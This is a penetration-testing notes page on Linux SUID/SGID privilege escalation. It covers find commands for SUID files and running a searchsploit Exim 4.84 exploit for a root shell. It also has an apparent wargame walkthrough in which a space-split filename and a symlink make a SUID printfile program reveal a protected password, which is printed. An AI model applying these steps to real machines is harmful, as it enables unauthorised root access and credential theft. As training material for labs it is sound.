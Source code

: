 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner.&#x20;

#### SGID files get executed with the privileges of the file group.&#x20;

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## Finding SUID / SGID Files

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

or

`find / -perm -2000 -o -perm -4000`&#x20;

## Shell Escape Sequences

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io) Refer to the previous section on shell escape sequences for how to use them.

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## Abusing cat to read files with SUID executables

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](<../../../.gitbook/assets/1 (14).png>)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt`  `cd /tmp/jhalon`  `ltrace ~/printfile test.txt` ``  `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600`  `access("test.txt", 4) = 0`  `snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17`  `system("/bin/cat test.txt"`  `--- SIGCHLD (Child exited) ---`  `<... system resumed> ) = 0`  `+++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access() and /bin/cat are being called on the input file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access() will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. (This is due to how the “ “ are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt`  `ltrace ~/printfile "pass file.txt"` ``  `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600`  `access("pass file.txt", 4) = 0`  `snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22`  `system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory`  `/bin/cat: file.txt: No such file or directory` ``  `--- SIGCHLD (Child exited) ---`  `<... system resumed> ) = 256`  `+++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass` ``  `leviathan2@melinda:/tmp/jhalon$ ls -la` ``  `total 7864`  `drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .`  `drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..`  `lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3`  `-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt` ``  `leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"`  `Ahdiemoo1j`  `/bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.

















